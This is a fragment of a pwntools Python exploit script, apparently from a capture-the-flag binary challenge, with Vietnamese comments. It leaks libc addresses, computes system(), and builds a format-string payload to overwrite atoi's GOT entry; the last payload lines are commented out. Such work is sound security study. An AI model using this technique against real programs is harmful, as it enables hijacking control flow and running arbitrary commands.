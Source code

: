 ```python

puts_addr_str = output.split(b'.')[0].ljust(8, b'\x00')
atoi_addr_str = output.split(b".")[1].ljust(8, b'\x00')
puts_addr = int.from_bytes(puts_addr_str, "little") 
atoi_addr = int.from_bytes(atoi_addr_str, "little") 

log.info(f"puts() runtime address: {hex(puts_addr)}\n")

log.info(f"atoi() runtime address: {hex(atoi_addr)}\n")


libc_base_addr = u64(puts_addr_str) - puts_offset_libc
log.info(f"libc_base address: {hex(libc_base_addr)}\n")

system_offset = libc.symbols['system'] #0x055410
system_addr = libc_base_addr + system_offset
log.info(f"system address: {hex(system_addr)}\n") # demo 0x7fe0e8abc570

##########################################################


atoi_got = binary.got['atoi']

log.info(f"atoi() GOT address: {hex(atoi_got)}") 


#system_addr = 0x7fe0e8abc570 #demo

system_addr_high = (system_addr >> 32) & 0xFFFF
system_addr_medium = (system_addr >> 16) & 0xFFFF
system_addr_low = system_addr & 0xFFFF

print("Original values:")
print("High:", int(system_addr_high))
print("Medium:", int(system_addr_medium))
print("Low:", int(system_addr_low))

# Đưa các giá trị vào một danh sách
values = [
    ("high", system_addr_high, "13" ),
    ("medium", system_addr_medium, "12" ),
    ("low", system_addr_low, "11")
]

# Sắp xếp danh sách dựa trên giá trị
values.sort(key=lambda x: x[1])

print("\nSorted values:")

for item in values:
    print(item[0] + ":" , item[1] , item[2] )


payload1 = b"11111111" + p64(atoi_got ) + p64(atoi_got + 2 ) + p64(atoi_got + 4)

r.sendlineafter(b"A: ",payload1)

#payload2 = b"1_______%1p%12$n%2p%11$n"

# payload2 = b"1_______%" + str(int(system_addr_high) - 46).encode("ascii") + b"p%13$hn%" 
# payload2 += str(int(system_addr_low) - int(system_addr_high)).encode("ascii") + b"p%11$hn%"
# payload2 += str(int(system_addr_medium) - int(system_addr_low)).encode("ascii") + b"p%12$hn--" 
```